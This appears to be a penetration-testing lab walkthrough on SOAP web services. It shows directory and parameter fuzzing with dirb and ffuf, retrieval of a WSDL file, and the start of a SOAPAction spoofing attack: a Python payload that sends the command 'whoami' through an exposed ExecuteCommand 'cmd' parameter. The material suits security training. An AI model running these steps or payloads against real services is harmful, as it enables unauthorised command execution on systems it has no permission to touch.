 ## Web Services Description Language (WSDL)
### Scenario: SOAP service residing at `http://<TARGET IP>:3002`
#### Perform directory fuzzing against the web service
```Shell
dirb http://<TARGET IP>:3002
```
It looks like `http://<TARGET IP>:3002/wsdl` exists.
#### Inspect using cURL
```Shell
curl http://<TARGET IP>:3002/wsdl 
```
Empty response
#### Fuzz parameters
```Shell
ffuf -w "/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3002/wsdl?FUZZ' -fs 0 -mc 200
```
There is a `wsdl` parameter
#### cURL the parameter
```Shell
curl -s -i http://10.129.202.133:3002/wsdl?wsdl
```
We identified the SOAP service's WSDL file

******Note: WSDL files can be found in many forms, such as /example.wsdl, ?wsdl, /example.disco, ?disco etc. DISCO is a Microsoft technology for publishing and discovering Web Services.

## SOAPAction Spoofing
#### Read the SOAP web service's WSDL file
```Shell
curl http://<TARGET IP>:3002/wsdl?wsdl
```
#### Pertinent information to pay attention to from the WSDL file:
```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```
Parameters of this `ExecuteCommand`:
```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```
There is a `cmd` parameter
#### Build a python script to issue requests to the SOAP service
```Python
#!/usr/bin/python

import requests

payload = '<?xml version="1.0" encoding="UTF-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

```